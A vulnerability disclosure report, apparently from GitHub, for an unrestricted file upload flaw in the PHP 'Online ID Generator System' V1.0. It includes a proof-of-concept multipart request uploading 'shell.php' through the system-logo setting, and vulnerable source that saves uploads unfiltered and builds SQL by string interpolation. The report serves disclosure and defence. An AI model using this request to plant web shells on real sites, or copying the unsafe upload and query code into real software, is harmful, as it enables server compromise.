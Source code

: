 # [Online ID Generator System-File upload vulnerabilities-SystemSettings.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

**[Affected Version]:** Online ID Generator System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"id_generator_db"**.

5. **Import** the provided **`SQL`** file. The file is known as **`id_generator_db.sql`** located inside the **database** folder.

6. **Browse** the **Online ID Generator System** in a **browser**. i.e. **`http://localhost/id_generator`**.

   **Admin Access Information:**

   Username: **admin**
   Password: **admin123**

## Bug Information

**[Vulnerability type]:** File upload vulnerabilities

**[Vulnerability Url]:** `http://localhost/id_generator/classes/SystemSettings.php?f=update_settings`

**[Vulnerability Location]:** /id_generator/classes/SystemSettings.php

**[Vulnerability Test]:**

1. First visit `http://localhost/id_generator/admin/?page=system_info`,  and upload a PHP file at the `System Logo` with the content `<?php phpinfo(); ? >`

   ![](../../img/20240622170644.png)

2. After clicking Update, get the packet as follows

   ```bash
   POST /id_generator/classes/SystemSettings.php?f=update_settings HTTP/1.1
   Host: localhost
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: */*
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   X-Requested-With: XMLHttpRequest
   Content-Type: multipart/form-data; boundary=---------------------------266575667029437990162157506060
   Content-Length: 515
   Origin: http://localhost
   Connection: close
   Referer: http://localhost/id_generator/admin/?page=system_info
   Cookie: Phpstorm-10d910bb=a6bc0397-210c-4145-96b8-e9aedf363376; PHPSESSID=c6ikif3reuhfclaa66bo04s2sj
   
   -----------------------------266575667029437990162157506060
   Content-Disposition: form-data; name="name"
   
   Online ID Generator System - PHP
   -----------------------------266575667029437990162157506060
   Content-Disposition: form-data; name="short_name"
   
   OIGS
   -----------------------------266575667029437990162157506060
   Content-Disposition: form-data; name="img"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   -----------------------------266575667029437990162157506060--
   
   ```
   
   The response results are shown in the figure
   
   ![](../../img/20240622171019.png)
   
4. The file is successfully uploaded, and the path to the file just uploaded is displayed on this page.

   ![](../../img/20240622171133.png)

5. Visit `http://localhost/id_generator/uploads/1719047340_shell.php`

   ![](../../img/20240622171240.png)

**[code analysis]:**

in /id_generator/classes/SystemSettings.php:

```php
function update_settings_info(){
    $data = "";
    foreach ($_POST as $key => $value) {
        if(!in_array($key,array("about_us","privacy_policy")))
            if(isset($_SESSION['system_info'][$key])){
                $value = str_replace("'", "&apos;", $value);
                $qry = $this->conn->query("UPDATE system_info set meta_value = '{$value}' where meta_field = '{$key}' ");
            }else{
                $qry = $this->conn->query("INSERT into system_info set meta_value = '{$value}', meta_field = '{$key}' ");
            }
    }
    if(isset($_POST['about_us'])){
        file_put_contents('../about.html',$_POST['about_us']);
    }
    if(isset($_POST['welcome_content'])){
        file_put_contents('../welcome_content.html',$_POST['welcome_content']);
    }
    if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
        $fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];
        $move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
        if(isset($_SESSION['system_info']['logo'])){
            $qry = $this->conn->query("UPDATE system_info set meta_value = '{$fname}' where meta_field = 'logo' ");
            if(is_file('../'.$_SESSION['system_info']['logo'])) unlink('../'.$_SESSION['system_info']['logo']);
        }else{
            $qry = $this->conn->query("INSERT into system_info set meta_value = '{$fname}',meta_field = 'logo' ");
        }
    }
    if(isset($_FILES['cover']) && $_FILES['cover']['tmp_name'] != ''){
        $fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['cover']['name'];
        $move = move_uploaded_file($_FILES['cover']['tmp_name'],'../'. $fname);
        if(isset($_SESSION['system_info']['cover'])){
            $qry = $this->conn->query("UPDATE system_info set meta_value = '{$fname}' where meta_field = 'cover' ");
            if(is_file('../'.$_SESSION['system_info']['cover'])) unlink('../'.$_SESSION['system_info']['cover']);
        }else{
            $qry = $this->conn->query("INSERT into system_info set meta_value = '{$fname}',meta_field = 'cover' ");
        }
    }

    $update = $this->update_system_info();
    $flash = $this->set_flashdata('success','System Info Successfully Updated.');
    if($update && $flash){
        // var_dump($_SESSION);
        return true;
    }
}

function update_system_info(){
    $sql = "SELECT * FROM system_info";
    $qry = $this->conn->query($sql);
    while($row = $qry->fetch_assoc()){
        if(isset($_SESSION['system_info'][$row['meta_field']]))unset($_SESSION['system_info'][$row['meta_field']]);
        $_SESSION['system_info'][$row['meta_field']] = $row['meta_value'];
    }
    return true;
}
```

No filtering is done on uploaded filenames.
